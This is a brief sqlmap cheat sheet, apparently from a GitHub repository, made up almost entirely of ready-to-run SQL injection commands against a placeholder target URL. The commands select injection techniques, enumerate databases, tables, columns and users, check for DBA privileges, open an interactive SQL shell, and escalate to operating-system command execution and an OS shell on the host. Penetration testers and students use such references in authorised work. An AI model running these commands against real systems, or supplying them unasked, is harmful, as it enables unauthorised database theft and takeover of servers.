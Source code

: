 # SQLMAP
sqlmap inject
```
sqlmap -u "http://<target>/index.php?id=1" --technique U   //UNION-based
sqlmap -u "http://<target>/index.php?id=1" --technique T   //Time-based
sqlmap -u "http://<target>/index.php?id=1" --technique B   //Boolean-based
sqlmap -u "http://<target>/index.php?id=1" --technique S   //Stacked queries-based
sqlmap -u "http://<target>/index.php?id=1" --technique E   //Error-based
```
sqlmap list database
```
sqlmap -u "http://<target>/index.php?id=1" --dbs
```
sqlmap list tables
```
sqlmap -u "http://<target>/index.php?id=1" -D "database" --tables
```
sqlmap list columns
```
sqlmap -u "http://<target>/index.php?id=1" -D "database" -T "tables" --columns
```
sqlmap check DBA
```
sqlmap -u "http://<target>/index.php?id=1" --is-dba
```
sqlmap list now user
```
sqlmap -u "http://<target>/index.php?id=1" --current-user
```
sqlmap list now db
```
sqlmap -u "http://<target>/index.php?id=1" --current-db
```
sqlmap sqlshell
```
sqlmap -u "http://<target>/index.php?id=1" --sql-shell
select @@datadir;
select @@basedir;
select @@plugin_dir;
select @@version;
select host_name();        //same, web&databse on server
select @@servername;  //same, web&databse on server
```
sqlmap oscmd
```
sqlmap -u "http://<target>/index.php?id=1" --os-cmd="whoami"
```
sqlmap osshell
```
sqlmap -u "http://<target>/index.php?id=1" --os-shell
```
sqlmap defalut run
```
sqlmap -u "http://<target>/index.php?id=1" --batch
```
sqlmap https
```
sqlmap -u "http://<target>/index.php?id=1" --force-ssl
```
MYSQL secure_file_priv=null
```
sqlmap -u "http://<target>/index.php?id=1" --sql-shell
show global variables like '%secure%';
select @@secure;

my.ini
secure_file_priv=C:/
```